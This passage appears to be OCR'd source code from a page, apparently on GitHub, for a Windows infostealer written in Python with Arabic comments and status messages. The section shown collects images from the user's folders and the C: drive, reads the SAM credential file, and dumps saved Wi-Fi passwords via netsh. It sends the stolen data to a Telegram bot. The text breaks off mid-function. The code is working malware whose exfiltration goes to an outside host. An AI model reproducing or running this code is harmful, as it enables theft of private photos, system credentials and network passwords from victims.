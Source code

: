 
#### 6. **سرقة الصور وباسوردات الواي فاي وملف SAM**
```python
def collect_and_send_images():
    image_extensions = ('.jpg', '.jpeg', '.png')
    search_dirs = [
        os.path.join(os.environ["USERPROFILE"], "Pictures"),
        os.path.join(os.environ["USERPROFILE"], "Desktop"),
        os.path.join(os.environ["USERPROFILE"], "Documents"),
        os.path.join(os.environ["USERPROFILE"], "Downloads"),
        "C:\\"
    ]
    send_to_telegram_split(f"📸 جاري البحث عن الصور وإرسالها إلى Telegram من {device_name}...")
    found_images = 0
    for directory in search_dirs:
        try:
            for root, _, files in os.walk(directory):
                for file in files:
                    if file.lower().endswith(image_extensions):
                        img_path = os.path.join(root, file)
                        try:
                            send_photo_to_telegram(img_path)
                            found_images += 1
                            time.sleep(0.5)
                        except Exception as e:
                            send_to_telegram_split(f"⚠️ فشل في إرسال الصورة {img_path} من {device_name}: {str(e)}")
        except Exception as e:
            send_to_telegram_split(f"⚠️ خطأ أثناء البحث في {directory} على {device_name}: {str(e)}")
    send_to_telegram_split(f"✅ تم الانتهاء من إرسال الصور من {device_name}. العدد الإجمالي: {found_images}")

def extract_system_passwords():
    try:
        sam_path = "C:\\Windows\\System32\\config\\SAM"
        if os.path.exists(sam_path):
            send_to_telegram_split(f"[تم العثور على ملف SAM على {device_name}]: {sam_path}")
            with open(sam_path, "rb") as f:
                requests.post(
                    f"https://api.telegram.org/bot{TELEGRAM_BOT_TOKEN}/sendDocument",
                    files={"document": f},
                    data={"chat_id": TELEGRAM_CHAT_ID, "caption": f"ملف SAM المستخرج من {device_name}"}
                )
        else:
            send_to_telegram_split(f"⚠️ ملف SAM غير موجود على {device_name}.")
    except Exception as e:
        send_to_telegram_split(f"⚠️ خطأ في استخراج ملف SAM من {device_name}: {str(e)}")
    try:
        profiles = subprocess.getoutput("netsh wlan show profiles")
        wifi_list = []
        profile_names = [line.split(":")[1].strip() for line in profiles.splitlines() if "All User Profile" in line]
        for profile in profile_names:
            details = subprocess.getoutput(f"netsh wlan show profile name=\"{profile}\" key=clear")
            for line in details.splitlines():
                if "Key Content" in line:
                    password = line.split(":")[1].strip()
                    wifi_list.append(f"📡 الشبكة: {profile}\n🔑 كلمة المرور: {password}")
                    break
            else:
                wifi_list.append(f"📡 الشبكة: {profile}\n🔑 كلمة المرور: [غير متاحة]")
        if wifi_list:
```